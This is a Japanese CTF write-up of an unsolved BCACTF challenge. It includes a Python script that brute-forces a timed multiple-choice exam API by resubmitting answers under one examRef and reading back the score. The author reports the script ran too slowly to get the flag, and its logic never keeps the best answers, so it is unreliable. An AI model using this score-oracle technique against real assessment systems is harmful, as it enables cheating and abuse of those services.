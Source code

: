 <br>

### (Unsolved)

MCQ (Multiple Choice) の問題が25問出てきます。アクセスする度に問題は変わりますが、examRef で管理されていて同じ examRef を使えば2分間はやり直しが可能です。

ということで以下のコードを書きました。

いちおう動くのですが、2分以内に処理が終わらずに Flag は取れませんでした。

urllib が遅いんですかね。速く動くコードを書くスキルを磨かなくては。。。


```Python
#!/usr/bin/env python3

import json
import urllib.request

url = 'http://challs.bcactf.com:14327/api/exam/begin'
data = {
    "studentName":"aaaaa",
}
headers = {
    'Content-Type': 'application/json',
}

# Begin to get "examRef"
req = urllib.request.Request(url, json.dumps(data).encode(), headers)
with urllib.request.urlopen(req) as res:
    body = json.load(res)
examRef = body['examRef']

# Submit all '0'
url = 'http://challs.bcactf.com:14327/api/exam/submit'
answer = [0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0]
final_answer = [0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0]
data = {
    "examRef":examRef,
    "selections":answer,
}
req = urllib.request.Request(url, json.dumps(data).encode(), headers)
with urllib.request.urlopen(req) as res:
    body = json.load(res)
    score = float(body['score'][:-1])

print(answer)
print(body['score'])
print(body['passed'])
print("")

# Change the answer & submit
for i in range(25): # 0~24
    for j in range(1,5): # 1~4
        answer[i] = j
        data = {
            "examRef":examRef,
            "selections":answer,
        }

        req = urllib.request.Request(url, json.dumps(data).encode(), headers)
        with urllib.request.urlopen(req) as res:
            body = json.load(res)
            print(answer)
            print(body['score'])
            print(body['passed'])
```